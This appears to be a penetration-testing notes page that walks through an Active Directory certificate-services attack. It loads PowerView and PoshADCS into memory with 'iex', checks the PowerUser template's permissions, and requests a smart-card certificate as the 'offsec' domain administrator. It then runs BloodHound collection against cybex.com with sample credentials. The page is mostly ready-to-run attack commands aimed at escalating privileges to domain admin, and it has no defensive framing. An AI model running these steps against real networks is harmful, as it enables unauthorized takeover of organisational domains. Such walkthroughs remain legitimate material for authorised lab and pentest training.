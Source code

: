 ### Execute PowerView

```
PS> cat -raw PowerView.ps1 | iex
```

### Execute PoshADCS

```
PS> cat -raw ADCS.ps1 | iex
```

### Check the Access level

```
Get-ADCSTemplateACL -Name PowerUser | Format-Table AceQualified,Identity,ActiveDirectoryRights
```

### Requtst for Domain Admin

```
Get-SmartCardCertificate -Template Poweruser -Identity offsec
```

{% hint style="info" %}
offsec user is the domain administrator
{% endhint %}

{% hint style="info" %}
Enter the PIN we have created previously
{% endhint %}

### Check the virtual smart card

```
certiutil -scinfo
```

{% hint style="info" %}
Enter the PIN
{% endhint %}



## Set the BloodHound loose

{% embed url="https://attack.mitre.org/software/S0521" %}

```
$ .local/bin/bloodhound-python -u jdoe76 -p JDPass2021 -ns <name server ip> -d cybex.com -c all
```

### Start neo4j

```
sudo neo4j console
```

#### Change the Credentials for neo4j

{% embed url="http://127.0.0.1:7474/browser" %}

### Run BloodHound

```
bloodhound
```

{% hint style="info" %}
Ente the neo4j username and password
{% endhint %}

